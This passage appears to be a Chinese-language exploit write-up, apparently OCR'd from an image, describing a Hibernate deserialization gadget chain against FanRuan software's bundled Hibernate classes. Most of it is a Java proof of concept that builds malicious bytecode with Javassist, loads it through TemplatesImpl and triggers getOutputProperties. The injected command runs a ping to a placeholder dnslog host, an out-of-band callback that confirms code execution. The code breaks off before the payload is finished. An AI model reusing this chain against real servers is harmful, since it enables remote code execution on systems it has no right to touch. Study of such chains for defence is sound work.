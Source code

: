 因为反软内置没有 PropertyUtils，但是考虑也是用getter 这种去进行命令执行的 那么就可以考虑另一个链Hibernate  
  
这条链的具体文章可以 参考 Hibernate  
#### 思路：  
  
通过Hibernate结合TemplatesImpl这条链 触发getOutputProperties 方法中的newTransformer() 去执行任意方法的调用  
#### Hibernate链  
  
```

public class HibernateExp {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static Object createWithoutConstructor(Class aa) throws Exception{
        ReflectionFactory reflectionFactory = ReflectionFactory.getReflectionFactory();
        Object o = reflectionFactory.newConstructorForSerialization(aa, Object.class.getDeclaredConstructor()).newInstance();
        return o;
    }
    public static void main(String[] args) throws Exception{
        Class<?> componentTypeClass = Class.forName("com.fr.third.org.hibernate.type.ComponentType");
        Class<?> pojoComponentTuplizerClass = Class.forName("com.fr.third.org.hibernate.tuple.component.PojoComponentTuplizer");
        Class<?> abstractComponentTuplizerClass = Class.forName("com.fr.third.org.hibernate.tuple.component.AbstractComponentTuplizer");

        //动态创建字节码
        String cmd = "java.lang.Runtime.getRuntime().exec(\"ping -c 1 xxxx.dnslog.pw\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("Evil");
        ctClass.makeClassInitializer().insertBefore(cmd);
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] bytes = ctClass.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "HibernateExp");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        Method getOutputProperties = TemplatesImpl.class.getDeclaredMethod("getOutputProperties");

        Object getter;
        try {
            // 创建 GetterMethodImpl 实例，用来触发 TemplatesImpl 的 getOutputProperties 方法
            Class<?> getterImpl = Class.forName("com.fr.third.org.hibernate.property.access.spi.GetterMethodImpl");
            Constructor<?> constructor = getterImpl.getDeclaredConstructors()[0];
            constructor.setAccessible(true);
            getter = constructor.newInstance(null, null, getOutputProperties);
        }catch (Exception ignored){
            // 创建 BasicGetter 实例，用来触发 TemplatesImpl 的 getOutputProperties 方法
            Class<?> basicGetter = Class.forName("com.fr.third.org.hibernate.property.BasicPropertyAccessor$BasicGetter");
            Constructor<?> constructor = basicGetter.getDeclaredConstructor(Class.class, Method.class, String.class);
            constructor.setAccessible(true);
            getter = constructor.newInstance(templates.getClass(), getOutputProperties, "outputProperties");
        }

```